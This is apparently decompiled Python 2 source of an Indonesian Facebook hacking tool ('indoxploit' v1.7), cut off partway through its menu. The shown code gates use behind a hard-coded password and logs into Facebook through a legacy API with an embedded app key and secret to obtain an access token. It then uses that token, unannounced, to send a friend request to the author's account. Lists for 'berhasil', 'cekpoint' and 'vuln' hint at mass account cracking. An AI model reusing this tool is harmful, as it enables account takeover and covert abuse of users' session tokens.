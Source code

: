 #decompiled by PDM31 import os, sys print
'\x1b[1;32mSudah punya ID dan Password nya?' print '\x1b[1;32mSilahkan Login ' import os, sys  def wa():     os.system('xdg-open https://api.whatsapp.com/send?phone=6281291977644&amp;text=Assalamualaikum')   def restart():     ngulang = sys.executable     os.execl(ngulang, ngulang, *sys.argv)   user = raw_input('ID: ') import getpass sandi = raw_input('Password: ') if sandi == 'indoxploit' and user == 'Borot':     print 'Anda Telah Login'     sys.exit else:     print 'Login GAGAL, Silahkan hubungi ADMIN'     wa()     restart() import os, sys, time, datetime, random, hashlib, re, threading, json, getpass, urllib from multiprocessing.pool import ThreadPool try:     import mechanize except ImportError:     os.system('pip2 install mechanize') else:     try:         import requests     except ImportError:         os.system('pip2 install requests')  from requests.exceptions import ConnectionError from mechanize import Browser reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1) br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]  def keluar():     print '\x1b[1;91m[!] Keluar'     os.sys.exit()   def jalan(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.1)   logo = '\x1b[1;92m\n\xe2\x95\x94\xe2\x95\xa6\xe2\x95\x97\xe2\x94\x8c\xe2\x94\x80\xe2\x94\x90\xe2\x94\xac\xe2\x94\x80\xe2\x94\x90\xe2\x94\xac\xe2\x94\x8c\xe2\x94\x80   \xe2\x95\x94\xe2\x95\x90\xe2\x95\x97\xe2\x95\x94\xe2\x95\x97 \n \xe2\x95\x91\xe2\x95\x91\xe2\x94\x9c\xe2\x94\x80\xe2\x94\xa4\xe2\x94\x9c\xe2\x94\xac\xe2\x94\x98\xe2\x94\x9c\xe2\x94\xb4\xe2\x94\x90\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xa0\xe2\x95\xa3 \xe2\x95\xa0\xe2\x95\xa9\xe2\x95\x97\n\xe2\x95\x90\xe2\x95\xa9\xe2\x95\x9d\xe2\x94\xb4 \xe2\x94\xb4\xe2\x94\xb4\xe2\x94\x94\xe2\x94\x80\xe2\x94\xb4 \xe2\x94\xb4   \xe2\x95\x9a  \xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d \x1b[1;93mv1.7\n\x1b[1;93m* \x1b[1;97mAuthor  \x1b[1;91m: \x1b[1;96mMr. Borot\x1b[1;97m\n\x1b[1;93m* \x1b[1;97mSupport \x1b[1;91m: \x1b[1;96mKunjungi\x1b[1;97m \x1b[1;96mwebsite \x1b[1;96mKami\n\x1b[1;93m* \x1b[1;97mwebsite  \x1b[1;91m: \x1b[1;92m\x1b[4mhttp://indoxploit.id/\x1b[0m\n'  def tik():     titik = [      '.   ', '..  ', '... ']     for o in titik:         print '\r\x1b[1;91m[\xe2\x97\x8f] \x1b[1;92mSedang Masuk \x1b[1;97m' + o,         sys.stdout.flush()         time.sleep(1)   back = 0 threads = [] berhasil = [] cekpoint = [] gagal = [] idteman = [] idfromteman = [] idmem = [] id = [] em = [] emfromteman = [] hp = [] hpfromteman = [] reaksi = [] reaksigrup = [] komen = [] komengrup = [] listgrup = [] vulnot = '\x1b[31mNot Vuln' vuln = '\x1b[32mVuln'  def login():     os.system('reset')     try:         toket = open('login.txt', 'r')         menu()     except (KeyError, IOError):         os.system('reset')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         print '\x1b[1;91m[\xe2\x98\x86] \x1b[1;92mLOGIN AKUN FACEBOOK \x1b[1;91m[\xe2\x98\x86]'         id = raw_input('\x1b[1;91m[+] \x1b[1;36mUsername \x1b[1;91m:\x1b[1;92m ')         pwd = getpass.getpass('\x1b[1;91m[+] \x1b[1;36mPassword \x1b[1;91m:\x1b[1;92m ')         tik()         try:             br.open('https://m.facebook.com')         except mechanize.URLError:             print '\n\x1b[1;91m[!] Tidak ada koneksi'             keluar()          br._factory.is_html = True         br.select_form(nr=0)         br.form['email'] = id         br.form['pass'] = pwd         br.submit()         url = br.geturl()         if 'save-device' in url:             try:                 sig = 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'                 data = {'api_key': '882a8490361da98702bf97a021ddc14d', 'credentials_type': 'password', 'email': id, 'format': 'JSON', 'generate_machine_id': '1', 'generate_session_cookies': '1', 'locale': 'en_US', 'method': 'auth.login', 'password': pwd, 'return_ssl_resources': '0', 'v': '1.0'}                 x = hashlib.new('md5')                 x.update(sig)                 a = x.hexdigest()                 data.update({'sig': a})                 url = 'https://api.facebook.com/restserver.php'                 r = requests.get(url, params=data)                 z = json.loads(r.text)                 zedd = open('login.txt', 'w')                 zedd.write(z['access_token'])                 zedd.close()                 print '\n\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mLogin berhasil'                 requests.post('https://graph.facebook.com/me/friends?method=post&amp;uids=gwimusa3&amp;access_token=' + z['access_token'])                 os.system('xdg-open http://indoxploit.id/')                 time.sleep(2)                 menu()             except requests.exceptions.ConnectionError:                 print '\n\x1b[1;91m[!] Tidak ada koneksi'                 keluar()          if 'checkpoint' in url:             print '\n\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'             os.system('rm -rf login.txt')             time.sleep(1)             keluar()         else:             print '\n\x1b[1;91m[!] Login Gagal'             os.system('rm -rf login.txt')             time.sleep(1)             login()   def menu():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         os.system('reset')         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         try:             otw = requests.get('https://graph.facebook.com/me?access_token=' + toket)             a =
